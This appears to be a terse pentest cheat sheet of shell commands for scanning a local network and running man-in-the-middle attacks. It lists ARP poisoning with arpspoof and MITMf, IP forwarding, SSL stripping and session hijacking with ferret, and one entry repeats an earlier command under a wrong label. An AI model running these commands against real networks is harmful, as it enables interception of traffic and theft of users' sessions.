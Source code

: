 ## Information gathering upon connected

**place INTERFACE back in managed mode**

### Method 1

- Capture info (quik)

`netdiscover -i INTERFACE -r IPADDRES/SUBNET`

### Method 2 (needs to be installed)

- Capture info with graphical interface

`netdiscover -i INTERFACE -r IPADDRES/SUBNET`

### Method 3

- Capture info (extensive)

`zenmap` Follow the GUI

## Man In The Middle (MITM)

### ARP Poisoning (arpsoof)

- Make the target client believe you are the AP

`arpspoof -i INTERFACE -t TARGET_IP AP_IP`

- Make the AP believe your are the client

`arpspoof -i INTERFACE -t AP_IP TARGET_IP`

- Enable IP forward without dropping

`echo 1 > /proc/sys/net/ipv4/ip_forward`

### ARP Poisoning (MITMf)

- Fool client and AP

`mitmf --arp --spoof  --gateway AP_IP --target TARGET_IPs -i INTERFACE`

- Enable IP forwarding without dropping

`echo 1 > /proc/sys/net/ipv4/ip_forward`

- Redirect https requests to http 

use SSL-strip, mitmf starts this automatically

- Session Hijacking

`apt-get install ferret-sidejack`

`ferret -i INTERFACE`
